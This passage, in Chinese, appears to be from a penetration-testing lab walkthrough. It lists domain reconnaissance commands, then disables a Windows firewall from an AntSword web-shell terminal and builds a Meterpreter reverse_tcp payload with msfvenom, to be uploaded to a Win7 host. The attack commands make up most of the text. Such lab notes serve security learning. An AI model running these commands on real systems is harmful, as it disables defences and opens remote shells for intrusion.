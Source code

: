 net group "domain computers" /domain 			# 查看域中的其他主机名

net group "doamin controllers" /domain 			# 查看域控制器（可能有多台）



## 2、权限维持/提升

### 蚁剑关闭防火墙

蚁剑终端执行 netsh advfirewall set allprofiles state off

![img](assets/1654324914929-b3edcfaf-0554-4889-9dd2-f74cb6a82cd1.png)



### msf

使用msfvenom生成payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.130.130 LPORT=8888 -f exe -o shell.exe

![img](assets/1654325140956-a5cd2664-a923-4535-ae93-56c63b38f2ee.png)

用蚁剑上传至win7中

